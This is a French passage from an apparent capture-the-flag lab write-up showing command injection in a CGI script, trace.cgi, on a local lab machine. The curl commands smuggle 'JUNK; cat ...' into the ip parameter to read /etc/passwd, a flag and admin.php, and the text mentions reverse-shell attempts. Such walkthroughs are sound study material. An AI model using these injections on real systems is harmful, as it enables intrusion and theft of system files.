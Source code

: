 ```console
root@blinils:~# export WEST='tail -n2 /etc/passwd'
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
Dolores:x:1002:1002::/home/Dolores:/bin/sh
Arnold:x:1003:1003::/home/Arnold:/bin/sh
</pre>

root@blinils:~# export WEST='JUNK; cat /home/Arnold/flag'
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
# <--flag: The piano doesn’t murder the player if it doesn’t like the music.--></pre>
```

Avec cette injection de commandes, il est aisé de démontrer que la page ```admin.php``` trouvée par DIRB est un leurre.

```console
root@blinils:~# export WEST='JUNK; cat /var/www/html/admin.php'
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
<html>
<body>


<form name="form1" action="" method="post">
<input type="password" name="password" />
<input type="hidden" name="sub" value="submit" />
<input type="submit" value="sub" />
</form>



</body>
</html></pre>
```

À présent, il s'agit d'obtenir un shell sur le serveur ! Et le moins que l'on puisse dire, c'est que ça n'a pas été une mince affaire. Si l'on voit assez rapidement que le répertoire ```/tmp``` est un bon endroit pour le déposer — www-data n'a pas les droits en écriture dans le répertoire ```/var/www/html``` — toutes mes tentatives avec PHP, netcat, curl, wget ou encore bash inspirées du [_Reverse-shell one-liner Cheat Sheet_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) de Yann Cam ont été semblables à un coup d'épée dans l'eau.

Fort heureusement, le proxy [__Burp__](https://support.portswigger.net/customer/portal/articles/1783055-configuring-your-browser-to-work-with-burp) est venu à la rescousse, à la suite de trop nombreux soucis répétés d'encodage. Son module _Repeater_ permet de modifier beaucoup plus facilement les données de la requête avant envoi, et donc à la fois de corriger le chemin ```/cgi-bin/trace.cgi``` en ```/cgi-bin/lawrence/trace.cgi``` dans le formulaire et le champ ```ip``` dans l'URL. Seul hic : l'encodage du signe égal, qui conserve sa valeur en hexadécimal ```%3d``` ce qui plait moyennement à l'interpréteur Python.
